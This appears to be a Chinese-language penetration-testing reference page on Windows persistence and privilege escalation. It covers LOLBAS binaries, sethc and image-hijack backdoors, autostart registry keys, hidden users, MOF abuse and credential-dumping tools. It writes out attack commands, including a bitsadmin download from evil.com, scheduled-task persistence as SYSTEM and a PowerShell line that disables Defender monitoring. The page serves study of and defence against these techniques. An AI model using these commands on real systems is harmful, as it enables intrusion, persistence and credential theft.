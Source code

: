 持久化 - Windows
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- appsyncvpublishing.exe
    - 执行powershell
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
- cmd.exe
- cmstp.exe
- control.exe
    - `加载dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`_
- csc.exe
    - 编译 C# 载荷
- cscript.exe
    - 执行脚本
- extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- forfiles.exe
    - ``forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe``
- mofcomp.exe
- makecab.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- msiexec.exe
    - 安装msi
    - 加载dll
- msxsl.exe
    - 处理XSL程序
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- IEExec.exe
    - .NET Framework附带程序
- powershell.exe
- psexec.exe
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- winrm.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

设置命令为 ``schtasks /create /tn "TEST_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"`` 、 ``schtasks /create /tn "TEST_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"`` 。删除命令为 ``schtasks /delete /tn "TEST_OnLogon" /f`` 。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

也可在 ``HKCU\Environment\`` 路径下设置 ``UserInitMprLogonScript`` 来实现。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建隐藏用户，这种帐户可在一定条件下隐藏，但是仍可以通过控制面板查看。

在创建隐藏用户的基础上，可以修改注册表的方式创建影子用户，这种方式创建的用户只能通过注册表查看。

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

Winlogon Helper DLL后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Winlogon是一个Windows组件，用来处理各种活动，如登录、注销、身份验证期间加载用户配置文件、关闭、锁定屏幕等。这种行为由注册表管理，该注册表定义在Windows登录期间启动哪些进程。所以可以依靠这个注册表来进行权限维持。

注册表位置如下：

- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`` 用于执行dll文件

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows Vista 和 Windows Server 2008 引入的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

ByPass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- DLL相关
- 进程注入
- 注册表

自启动
----------------------------------------

基于注册表的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

注册表如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx``

基于策略的自启动注册表设置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``

设置启动文件夹注册表位置如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``

设置服务启动项注册表位置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices``

用户自启动位置 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 、 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` ，其中 ``Userinit`` 键允许指定用逗号分隔的多个程序。

如果用户启动了屏幕保护程序，也可以通过屏幕保护程序来启动后面，相关注册表键值为：

- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE``

基于特定目录的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
自启动目录， ``C:\Users\Username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`` 目录对特定用户生效， ``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` 对所有用户生效。在NT6以前，两个目录为 ``C:\Documents and Settings\Username\Start Menu\Programs\StartUp`` / ``C:\Documents and Settings\All Users\Start Menu\Programs\StartUp`` 。
 
权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
